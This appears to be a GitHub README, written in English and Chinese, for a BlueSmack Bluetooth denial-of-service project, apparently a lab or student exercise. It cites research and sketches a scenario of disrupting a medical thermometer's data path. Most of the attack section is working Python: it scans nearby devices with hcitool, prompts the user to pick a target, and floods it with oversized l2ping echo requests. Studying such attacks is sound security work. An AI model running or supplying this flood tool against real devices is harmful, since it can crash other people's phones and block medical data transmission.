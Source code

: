 # BlueSmack Attack
## Basic Concept

A kind of DoS attack via bluetooth.

"The attack is a DoS attack on Bluetooth devices and is similar to the “Ping of Death” attacks that are carried out on IP-based devices, which are networked devices. 
It is done by sending pings that are approximately 600 bytes, as well as L2CAP echo requests to Bluetooth devices. This results in the input buffer to overflow and the targeted device to be knocked out."[^1] 
![]![OpVZcQA](https://github.com/hazel0511/Bluetooth/assets/122256711/86b4de70-c228-40d1-aa43-9ea1cefcf2ea)

對受害者發送一或多個大尺寸的封包，這些大型資料在發送途中會被分解為多個正常尺寸的封包，受害者會因為需要處理太多封包而崩潰或出現卡頓。

Use standard tools such as L2ping to specify the packet length, degrade the performance or even crash the process of victim.

![]![UdkdClL](https://github.com/hazel0511/Bluetooth/assets/122256711/843f1585-8298-414e-8738-4ea4657077d8)

在正常情形下，體溫計將資料傳到手機、基地台，再上傳到雲端。

攻擊方在這個過程當中攻擊手機、基地台，使得他們無法正常運作，因此阻礙程的進行，造成醫療資料傳輸過慢或無法傳輸。

## Environment Setup

   + Attacker: Ubuntu 20.04.3 LTS (64-bit) with **bluetoothctl, hcitool, and l2ping** package
   + Victim: Android mobile (ASUS_X00PD)

## Code
### Scan and Select Target Device Address
```
# Scan by command “hcitool scan”

output = os.popen('sudo hcitool scan').read()
eachLine = output.split('\n')
```
```
# List all the available devices nearby

res = []
for line in eachLine:
    data = list(filter(scan_filter, line.split('\t')))
    if (len(data) == 2):
        print(count, ' : ', data[0], '\t', data[1], '\n')
        count += 1
        res.append(data[0])
```
```
# Select target address by index

if len(targets) <= 0:
    print('[!] ERROR: No devices.')
    exit(0)

target_num = int(input('Target(Type the number of above targets) > '))

if target_num < 0 or target_num >= len(targets):
    print('[!] ERROR: Out of range 0 ~ ', len(targets)-1)
    exit(0)
else:
    target_addr = targets[target_num]
```
### Attack
Ubuntu 系統以 l2ping 對手機傳送封包
```
def DOS(target_addr, packages_size):
    os.system('l2ping -i hci0 -s ' + str(packages_size) +' -f ' + target_addr)
```
## Demo
[![IMAGE ALT TEXT](http://img.youtube.com/vi/m3RHRM2zCRs/0.jpg)](https://www.youtube.com/watch?v=m3RHRM2zCRs "DEMO")

[^1] :Angela M. Lonzetta; Peter Cope; Joseph Campbell; Bassam J. Mohd; Thaier Hayajneh. Security Vulnerabilities in Bluetooth Technology as Used in IoT. 2018, 15
